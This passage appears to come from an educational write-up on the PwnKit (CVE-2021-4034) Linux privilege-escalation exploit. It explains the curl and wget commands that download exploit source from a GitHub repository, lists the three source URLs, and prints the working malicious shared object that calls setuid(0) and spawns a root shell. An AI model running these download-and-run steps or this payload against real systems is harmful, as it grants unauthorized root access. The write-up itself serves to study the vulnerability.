 ```cpp

./cve-2021-4034
```

	- curl -sLO "$EXPLOIT" Breakdown: This command attempts to download the file from the URL stored in the variable `$EXPLOIT` using `curl`.
			- `-s`: Silent mode, which prevents `curl` from displaying any progress bars or status information.
			- `-L`: Follows any redirects in case the URL points to a different location.
			- `-O`: Saves the downloaded file with the same name as the remote file.

	- wget --no-hsts -q "$EXPLOIT" -O "${EXPLOIT##*/}" Breakdown : This command attempts to download the file from the URL stored in the variable `$EXPLOIT` using `wget` if the `curl` command fails.
			- `--no-hsts`: Disables HSTS (HTTP Strict Transport Security), which enforces HTTPS connections for websites that support it. This option is used to avoid potential issues with HSTS.
			- `-q`: Quiet mode, which suppresses any output from `wget`.
			- `-O "${EXPLOIT##*/}"`: Specifies the output file name. `${EXPLOIT##*/}` is a parameter expansion that extracts the file name from the URL (everything after the last `/`). It saves the downloaded file with the same name as the remote file.

	- Uses the 'Makefile'.
	- Lastly, executes the final exploit.

<u>Total</u>:
- It downloads all the files from the URLs:

		- https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.c
		- https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/pwnkit.c
		- https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/Makefile


# pwnkit.c - (evil-so.c)
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv(void) {
}

void gconv_init(void *step)
{
        char * const args[] = { "/bin/sh", NULL };
        char * const environ[] = { "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/bin", NULL };
        setuid(0);
        setgid(0);
        execve(args[0], args, environ);
        exit(0);
}
```



-----------
### Why does CVE-2021-4034 exploit work?
